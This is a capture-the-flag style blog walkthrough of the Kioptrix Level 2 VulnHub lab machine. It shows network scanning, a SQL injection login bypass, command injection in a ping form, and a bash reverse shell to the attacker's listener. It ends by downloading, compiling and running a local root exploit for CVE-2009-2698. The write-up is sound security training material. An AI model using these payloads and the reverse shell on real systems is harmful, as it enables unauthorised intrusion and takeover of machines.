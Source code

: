 ```yaml
---
layout: post
title: "Kioptrix 2 Walkthrough (Vulnhub)"
date: 2016-12-15 12:00:00
share: true
comments: true
---
```


_Kioptrix 2 VM can be downloaded [here](https://www.vulnhub.com/entry
/kioptrix-level-11-2,23/)._

## 0\. Get VMs IP

```console
root@kali:~# netdiscover -r 192.168.1.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 260 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 15600
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.67    c4:e9:84:10:d3:5e    255   15300  TP-LINK TECHNOLOGIES CO.,LTD.
 **...**
```

## 1\. Enumeration

### 1.1 TCP Ports enumeration

```console
root@kali:~# nmap 192.168.1.67 -sV

Starting Nmap 7.31 ( https://nmap.org ) at 2016-12-15 00:30 EST
Nmap scan report for 192.168.1.67
Host is up (0.000049s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: C4:E9:84:10:D3:5E (Tp-link Technologies)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.64 seconds
```

Hmm, some interesting services we see running on the machine. Most of these are pretty old. I did a quick search for existing exploits and didn't find any. It's still very possible that other vulnerabilities exist, yet I decided to check the web server running first.

Note: I didn't do a full TCP scan as it was taking way too long. Running it in
the background after the initial scan is might be useful.

_____________________________________________________________________________

## 2\. Web server

#### 2.1 Login form

<table align="center" border="1" cellpadding="2" cellspacing="2" style="width: 300px;">  <tbody>
<tr>    <td align="center" colspan="2"><b>Remote System Administration Login</b>    </td>   </tr>
<tr>    <td width="150">Username</td>    <td><input name="uname" type="text" /></td>   </tr>
<tr>    <td width="150">Password</td>    <td><input name="psw" type="password" />    </td>   </tr>
<tr>    <td align="center" colspan="2"><input name="btnLogin" type="submit" value="Login" />    </td>   </tr>
</tbody></table>
 

Hitting `http://192.168.1.67` shows us a login form, possibly vulnerable to SQL injection. I tried the vanilla `admin' or 1=1 #` and it worked!

Why did it work? Possibly because the query is in this form:

```sql
SELECT * from users where username="$_REQUEST["username"]" and password="$_REQUEST["password"]"
```

After submitting `admin" or 1=1 #`, it's evaluated to:

```sql
SELECT * from users where username="admin" or 1=1 # //ignored
```
which logs us in as admin.


#### 2.2 Admin interface

<h4>
<form action="pingit.php" method="post" name="ping" target="_blank">
<table border="1" style="width: 600px;">  <tbody>
<tr valign="middle">    <td align="center" colspan="2"><b>Welcome to the Basic Administrative Web Console</b>    </td>   </tr>
<tr valign="middle">    <td align="center">Ping a Machine on the Network:    </td>     <td align="center"><input name="ip" size="30" type="text" />     <input name="submit" type="submit" value="submit" />    </td>    </tr>
</tbody></table>
</form>
</h4>

This looks very vulnerable to an RCE (Remote Code Injection) attack. Let's try appending commands to it.


  * **Input:**  127.0.0.1
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.010 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.012 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1998ms
    rtt min/avg/max/mdev = 0.010/0.011/0.012/0.003 ms, pipe 2
```

  * **Input:**  127.0.0.1; whoami
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.007 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.013 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1999ms
    rtt min/avg/max/mdev = 0.007/0.010/0.013/0.004 ms, pipe 2
    apache
```


`whoami` returned apache! We're able to execute arbitrary commands. Let's get a shell by starting a listener on attacking machine.

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
```

Then getting a reverse shell connected to it.

**Input:** 127.0.0.1; bash -i &gt;&amp; /dev/tcp/192.168.1.69/443 0&gt;&amp;1
**Output on attacking machine:**
```console
    root@kali:~# nc -nvlp 443
    listening on [any] 443 ...
    connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
    bash: no job control in this shell
    bash-3.00$
```
Awesome! We got a shell as apache user.

_____________________________________________________________________________

## 3\. Getting root

Basic enumeration will reveal that this CentOS version **(4.5 Final) **is vulnerable to  [ CVE-2009-2698 ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2698)
Exploit can be found [here](https://www.exploit-db.com/exploits/9542/).

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
bash: no job control in this shell
bash-3.00$ cat /etc/issue
Welcome to Kioptrix Level 2 Penetration and Assessment Environment
--The object of this game:
|_Acquire "root" access to this machine.
There are many ways this can be done, try and find more then one way to
appreciate this exercise.
DISCLAIMER: Kioptrix is not resposible for any damage or instability
caused by running, installing or using this VM image.
Use at your own risk.
WARNING: This is a vulnerable system, DO NOT run this OS in a production
environment. Nor should you give this system access to the outside world
(the Internet - or Interwebs..)

Good luck and have fun!
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ uname -mrs
Linux 2.6.9-55.EL i686
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9542 --no-check-certificate
--23:08:44--  https://www.exploit-db.com/download/9542
           => `9542'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 2,645 (2.6K) [application/txt]

    0K ..                                                    100%  210.21 MB/s

23:08:45 (210.21 MB/s) - `9542' saved [2645/2645]

bash-3.00$ ls
9542
index.html
bash-3.00$ mv 9542 a.c
bash-3.00$ gcc a.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00#
```

Quite easy and straight forward! 

